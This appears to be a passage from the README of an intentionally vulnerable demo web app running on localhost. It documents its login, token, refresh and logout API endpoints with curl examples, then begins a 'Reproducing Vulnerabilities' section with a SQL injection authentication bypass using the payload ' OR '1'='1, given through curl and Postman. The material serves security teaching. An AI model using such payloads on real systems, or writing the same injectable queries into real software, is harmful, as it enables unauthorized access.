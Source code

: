 **Example:**
```bash
curl -X POST http://localhost:1234/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### `GET /admin/list-users` – Token Verification
- **Headers:** `Authorization: Bearer <token>`
- **Behavior:** Verifies token signature, issuer, audience, and expiry
- **Response:** Returns user list only if token is valid

**Example:**
```bash
curl -X GET http://localhost:1234/admin/list-users \
  -H "Authorization: Bearer <token_from_login>"
```

#### `POST /token` – Refresh Token Exchange
- **Body:** `{"refreshToken": "string"}`
- **Behavior:** Issues new access token, implements token rotation
- **Response:** New access and refresh tokens

#### `POST /logout` – Revoke Refresh Token
- **Body:** `{"refreshToken": "string"}`
- **Behavior:** Removes token from server-side store

---

## Reproducing Vulnerabilities

### Attack 1: SQL Injection via String Concatenation

**Vulnerable Endpoint:** `POST /vuln-login`

#### Step 1: Bypass Authentication

Try logging in with a SQL injection payload instead of a real password:

**Payload:**
```
username: admin
password: ' OR '1'='1
```

**Using curl:**
```bash
curl -X POST http://localhost:1234/vuln-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"'"'"' OR '"'"'1'"'"'='"'"'1"}'
```

**Using Postman:**
1. Create a new POST request to `http://localhost:1234/vuln-login`
2. Set header `Content-Type: application/json`
3. Body (raw JSON):
   ```json
   {"username":"admin","password":"' OR '1'='1"}
   ```
4. Send and observe: Login succeeds even with wrong password
